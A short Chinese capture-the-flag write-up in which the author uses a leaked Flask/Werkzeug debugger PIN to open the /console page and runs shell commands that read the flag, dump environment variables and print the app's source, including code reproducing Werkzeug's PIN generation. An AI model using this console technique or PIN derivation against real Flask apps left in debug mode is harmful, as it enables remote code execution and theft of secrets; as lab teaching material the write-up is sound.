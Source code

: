 ## 垫刀之路07: 泄漏的密码

第一次遇到白给的flask pin码，爱了爱了。拿pin码到`/console`路由的控制台直接拿python shell

::: details
```python
[console ready]
>>> import os
>>> os.popen('cat /flag').read()
'远在天边，近在眼前啊'
>>> os.popen('env').read()
'KUBERNETES_SERVICE_PORT=443\nKUBERNETES_PORT=tcp://10.43.0.1:443\nHOSTNAME=ret2shell-119-11100\nPYTHON_PIP_VERSION=23.0.1\nSHLVL=2\nHOME=/root\nGPG_KEY=A035C8C19219BA821ECEA86B64E628F8D684696D\nWERKZEUG_SERVER_FD=4\nPYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/66d8a0f637083e2c3ddffc0cb1e65ce126afb856/public/get-pip.py\nWERKZEUG_RUN_MAIN=true\nKUBERNETES_PORT_443_TCP_ADDR=10.43.0.1\nPATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\nKUBERNETES_PORT_443_TCP_PORT=443\nKUBERNETES_PORT_443_TCP_PROTO=tcp\nLANG=C.UTF-8\nPYTHON_VERSION=3.10.14\nPYTHON_SETUPTOOLS_VERSION=65.5.1\nKUBERNETES_SERVICE_PORT_HTTPS=443\nKUBERNETES_PORT_443_TCP=tcp://10.43.0.1:443\nKUBERNETES_SERVICE_HOST=10.43.0.1\nPWD=/app\nPYTHON_GET_PIP_SHA256=6fb7b781206356f45ad79efbb19322caa6c2a5ad39092d0d44d0fec94117e118\nFLAG=fake_flag\n'  
>>> os.popen('ls /').read();
'app\nbin\ndev\netc\nflag\nhome\nlib\nmedia\nmnt\nopt\nproc\nroot\nrun\nsbin\nsrv\nsys\ntmp\nusr\nvar\n'  
>>> os.popen('ls').read();
'__pycache__\napp.py\nflag\ngetPIN.py\nstatic\ntemplates\n'
>>> os.popen('cat *').read();
'import os\n\nfrom flask import Flask, render_template, request, session\nfrom getPIN import get_pin\n\napp = Flask(__name__)\napp.secret_key = os.urandom(24)\npin = get_pin()\n\n\n\n@app.route(\'/\')\ndef index():\n    return render_template(\'index.html\', pin=pin)\n\n\nif __name__ == "__main__":\n    app.run(debug=True, host=\'0.0.0.0\', port=80)\n    # print(get_pin())\nmoectf{DonT-UslNG-fI4Sk-bY-d3buG_MoD_And_le@K_Y0Ur_PiN11}import hashlib\nfrom itertools import chain\nimport uuid\ndef get_pin():\n    probably_public_bits = [\n        # \'ctf\'# username  /proc/self/environ\n        \'root\',\n        \'flask.app\',# modname\n        \'Flask\',# getattr(app, \'__name__\', getattr(app.__class__, \'__name__\'))\n        # \'/usr/local/lib/python3.9/site-packages/flask/app.py\' # getattr(mod, \'__file__\', None),\n        \'/usr/local/lib/python3.10/site-packages/flask/app.py\' # getattr(mod, \'__file__\', None),\n    ]\n    uuid1 = str(uuid.getnode())\n    linux = b""\n\n    # machine-id is stable across boots, boot_id is not.\n    for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":\n        try:\n            with open(filename, "rb") as f:\n                value = f.readline().strip()\n        except OSError:\n            continue\n\n        if value:\n            linux += value\n            break\n\n    # Containers share the same machine id, add some cgroup\n    # information. This is used outside containers too but should be\n    # relatively stable across boots.\n    try:\n        with open("/proc/self/cgroup", "rb") as f:\n            linux += f.readline().strip().rpartition(b"/")[2]\n    except OSError:\n        pass\n    linux = linux.decode(\'utf-8\')\n    private_bits = [\n        uuid1,\n        linux,\n    ]\n    h = hashlib.sha1()\n    for bit in chain(probably_public_bits, private_bits):\n        if not bit:\n            continue\n        if isinstance(bit, str):\n            bit = bit.encode("utf-8")\n        h.update(bit)\n    h.update(b"cookiesalt")\n\n    cookie_name = f"__wzd{h.hexdigest()[:20]}"\n\n    num = None\n    if num is None:\n        h.update(b"pinsalt")\n        num = f"{int(h.hexdigest(), 16):09d}"[:9]\n\n    rv=None\n    if rv is None:\n        for group_size in 5, 4, 3:\n            if len(num) % group_size == 0:\n                rv = "-".join(\n                    num[x : x + group_size].rjust(group_size, "0")\n                    for x in range(0, len(num), group_size)\n                )\n                break\n        else:\n            rv = num\n\n    return rv\n'  
>>> 
```
:::
